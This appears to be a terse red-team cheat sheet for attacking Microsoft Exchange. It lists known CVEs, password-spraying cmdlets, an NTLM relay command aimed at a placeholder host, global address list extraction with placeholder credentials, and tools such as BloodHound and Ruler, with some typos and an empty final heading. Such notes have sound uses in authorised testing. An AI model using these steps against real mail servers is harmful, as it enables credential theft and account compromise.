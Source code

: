 #### AutotDiscover

```bash
   autodiscover/autodiscover.xml
```

#### Known Vuln

```bash
ProxyLogon(2021-26855)
ProxyShell(2021-34473)
HAFNIUM(2021-26858)
```

#### Spray

```bash
Invoke-PasswordSprayOWA
Invoke-PasswordSprayEWS
```

#### NTLM Auth

```bash
   nmap --script http-ntlm-info
```

#### NTLMRelay

```bash
reponder
./exchangeRelayx.py -t https://mail.evil.com
```

#### GAL

```bash
Get-GlobalAddressList -ExchHostname mail.domain.com -UserName
domain\username -Password password -OutFile global-address-list.txt
```

#### Exchange Admin Group Deligation

```bash
Bloodhound
net
```

#### Rule

```bash
   GUI
```


```bash
   Ruler
```

#### Forms
